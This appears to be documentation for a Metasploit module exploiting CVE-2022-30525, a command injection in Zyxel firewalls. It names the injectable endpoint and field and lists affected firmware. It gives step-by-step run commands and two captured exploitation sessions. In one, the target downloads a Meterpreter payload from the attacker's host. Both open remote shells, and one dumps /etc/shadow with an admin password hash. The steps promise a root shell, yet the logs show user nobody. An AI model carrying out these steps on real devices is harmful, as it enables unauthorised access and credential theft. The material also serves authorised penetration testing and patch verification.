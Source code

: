 ## Vulnerable Application

### Description

This module exploits CVE-2022-30525, an unauthenticated remote
command injection vulnerability affecting Zyxel firewalls with zero
touch provisioning (ZTP) support. By sending a malicious `setWanPortSt`
command containing an `mtu` field with a crafted OS command to the
`/ztp/cgi-bin/handler` page, an attacker can gain remote command execution
as the `nobody` user.

Affected Zyxel models are:

* USG FLEX 50, 50W, 100W, 200, 500, 700 using firmware 5.21 and below
* USG20-VPN and USG20W-VPN using firmware 5.21 and below
* ATP 100, 200, 500, 700, 800 using firmware 5.21 and below

### Setup

The vulnerable system is a hardware firewall/VPN that, to our knowledge,
cannot be emulated. As such, testing requires a physical device. After
acquiring the device, Zyxel will require the system be registered and
updated (this will require registering an account at zyxel.com). Firmware
on the system, however, can be downgraded. Acquire a vulnerable firmware
version and downgrade (if needed). The system should be in a vulnerable
state so long as it's using a vulnerable firmware version (affected versions
listed above).

## Verification Steps

* Follow setup steps above.
* Do: `use exploit/linux/http/zyxel_ztp_rce`
* Do: `set RHOST <ip>`
* Do: `set LHOST <ip>`
* Do: `check`
* Verify the remote host is vulnerable.
* Do: `run`
* Verify the module acquires a root shell

## Options

## Scenarios

### Successful exploitation of USG Flex 100 using firmware 5.21 for a reverse sh shell as nobody

```
msf6 > use exploit/linux/http/zyxel_ztp_rce
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/http/zyxel_ztp_rce) > set RHOST 10.0.0.14
RHOST => 10.0.0.14
msf6 exploit(linux/http/zyxel_ztp_rce) > set LHOST 10.0.0.28
LHOST => 10.0.0.28
msf6 exploit(linux/http/zyxel_ztp_rce) > run

[*] Started reverse TCP handler on 10.0.0.28:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. This was determined by the model and build date: USG FLEX 100, 220315042158
[*] Executing Shell Dropper for cmd/unix/reverse_bash
[*] Sending exploit to /ztp/cgi-bin/handler
[*] Command shell session 1 opened (10.0.0.28:4444 -> 10.0.0.14:48153 ) at 2022-05-09 14:06:47 -0700
[+] Exploit successfully executed.

id
uid=99(nobody) gid=10003(shadowr) groups=99,10003(shadowr)
cat /etc/shadow
root:***:12396:0:99999:7:::
bin:***:12396:0:99999:7:::
daemon:***:12396:0:99999:7:::
adm:***:12396:0:99999:7:::
lp:***:12396:0:99999:7:::
sync:***:12396:0:99999:7:::
shutdown:***:12396:0:99999:7:::
halt:***:12396:0:99999:7:::
mail:***:12396:0:99999:7:::
news:***:12396:0:99999:7:::
uucp:***:12396:0:99999:7:::
operator:***:12396:0:99999:7:::
games:***:12396:0:99999:7:::
ftp:***:12396:0:99999:7:::
sshd:***:12396:0:99999:7:::
nobody:***:12396:0:99999:7:::
debug:***:12396:0:99999:7:::
#deadbeaf  Don't remove this line
admin:$5$52TVVua8$64kGlcP7$tNKPUArLMHZtmYy84GwUviNYNwBmDkLQ+cKkP9ToPRZqbAA3tgyfRd58rutqhxl36xVWYYRs5GhzX9Hd3ID9PvH5/F7RH0jPRLlug3+TecNkofrbDf3XOan3L8ZeChhzudZgUkP9A4sXfm6dEXguZ2+nLj98gyh7W8dl2/g+h3giNWW9Qsp1JdvaC3wIV53nlZ4p8JEPbswfsJ+KNEsb8AHajPfE+MVT4iTT9OhxPQnwMYaVhyRfauJeUrLtDHDzZq+bvHfmTp4NxUWOjwbXlBa7D6dRD21U3KW9btQM3SMDMSiwZGX1bo5Bu09lWiyzEPPIsy3n7Jsw+W818cZQm7I4b/BMn5tmdkafJz3uCw4$:19121:0:99999::::
ldap-users:***:19121:0:99999::::
radius-users:***:19121:0:99999::::
ad-users:***:19121:0:99999::::
ua-users:***:19121:0:99999::::
cloud-users:***:19121:0:99999::::
```

### Successful exploitation of USG Flex 100 using firmware 5.21 for a reverse Meterpreter shell as nobody

```
msf6 > use exploit/linux/http/zyxel_ztp_rce
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/http/zyxel_ztp_rce) > set RHOST 10.0.0.14
RHOST => 10.0.0.14
msf6 exploit(linux/http/zyxel_ztp_rce) > set LHOST 10.0.0.28
LHOST => 10.0.0.28
msf6 exploit(linux/http/zyxel_ztp_rce) > set target 1
target => 1
msf6 exploit(linux/http/zyxel_ztp_rce) > run

[*] Started reverse TCP handler on 10.0.0.28:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. This was determined by the model and build date: USG FLEX 100, 220315042158
[*] Executing Linux Dropper for linux/mips64/meterpreter_reverse_tcp
[*] Using URL: http://10.0.0.28:8080/vFiLDBVYvqzd
[*] Sending exploit to /ztp/cgi-bin/handler
[*] Client 10.0.0.14 (curl/7.70.0) requested /vFiLDBVYvqzd
[*] Sending payload to 10.0.0.14 (curl/7.70.0)
[*] Meterpreter session 1 opened (10.0.0.28:4444 -> 10.0.0.14:48159 ) at 2022-05-09 14:11:29 -0700
[+] Exploit successfully executed.
[*] Command Stager progress - 100.00% done (114/114 bytes)
[*] Server stopped.

meterpreter > shell
Process 25619 created.
Channel 1 created.
id
uid=99(nobody) gid=10003(shadowr) groups=99,10003(shadowr)
uname -a
Linux usgflex100 3.10.87-rt80-Cavium-Octeon #2 SMP Tue Mar 15 05:14:51 CST 2022 mips64 Cavium Octeon III V0.2 FPU V0.0 ROUTER7000_REF (CN7020p1.2-1200-AAP) GNU/Linux
cat /proc/cpuinfo
system type		: ROUTER7000_REF (CN7020p1.2-1200-AAP)
machine			: Unknown
processor		: 0
cpu model		: Cavium Octeon III V0.2  FPU V0.0
BogoMIPS		: 2400.00
wait instruction	: yes
microsecond timers	: yes
tlb_entries		: 256
extra interrupt vector	: yes
hardware watchpoint	: yes, count: 2, address/irw mask: [0x0ffc, 0x0ffb]
isa			: mips1 mips2 mips3 mips4 mips5 mips64r2
ASEs implemented	: vz
shadow register sets	: 1
kscratch registers	: 4
core			: 0
VCED exceptions		: not available
VCEI exceptions		: not available

processor		: 1
cpu model		: Cavium Octeon III V0.2  FPU V0.0
BogoMIPS		: 2400.00
wait instruction	: yes
microsecond timers	: yes
tlb_entries		: 256
extra interrupt vector	: yes
hardware watchpoint	: yes, count: 2, address/irw mask: [0x0ffc, 0x0ffb]
isa			: mips1 mips2 mips3 mips4 mips5 mips64r2
ASEs implemented	: vz
shadow register sets	: 1
kscratch registers	: 4
core			: 1
VCED exceptions		: not available
VCEI exceptions		: not available
```

